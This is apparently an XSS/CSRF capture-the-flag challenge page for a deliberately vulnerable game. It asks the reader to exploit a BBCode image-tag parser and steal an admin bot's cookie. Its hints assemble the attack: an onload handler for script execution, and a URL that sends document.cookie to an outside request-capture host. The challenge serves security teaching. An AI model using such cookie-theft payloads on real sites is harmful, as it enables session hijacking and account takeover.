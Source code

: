 # XSS/CSRF Challenge 2

----------------------

Hey friend,

I recently added profile signatures to user profiles (due to popular demand from my users). These signatures can be set under the Preferences page, and support BBCode.

I had a user recently complain to me that his account got hacked. Apparently the hacker found something in my BBCode parser he was able to exploit to do an XSS attack and steal this user's cookie, then login as him.

Can you see if you can duplicate that attack? I have a phantomjs bot setup that will log in as my admin account and visit all user profiles in the game - to trigger it, just go to Trigger Admin Browser in the navigation. See if you can steal that account's cookies!

Thanks!

-Breakthenet Game Owner

----------------------

Stuck? 
----------------------
<details> 
  <summary>Click for hint 1</summary>
   BBCode allows you to embed an image like so: [img]http://url.com/image.jpg[/img]
   
   Play around with that.
</details>

<details> 
  <summary>Click for hint 2</summary>
   Try breaking the BBCode image tag by inserting other characters (besides the url) inside of it. Use chrome inspector or view-source on "My Profile" to see what your BBCode input looks like when it's translated into html.
</details>

<details> 
  <summary>Click for hint 3</summary>
   http://requestb.in/ is a neat site for testing webhooks. Cookie stealing is kind of like a webhook. If you were somehow able to get javascript execution, you could potentially change the SRC of the image to something like this:
   
   http://requestb.in/1fj9x6o1?c='+document.cookie
   
   And then review the cookie (passed as a GET parameter) on requestb.in!
</details>

<details> 
  <summary>Click for hint 4</summary>
   Did you know you can execute javascript when an image loads? It's simple! All you have to do is use the onLoad attribute, like so:
   
   &lt;img src="logo.png" onload="alert(1)"&gt;
</details>

<details> 
  <summary>Click for hint 4</summary>
   While you can edit cookies with plain javascript, you can also cheat and use a browser extension like [this one](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg?hl=en).
</details>




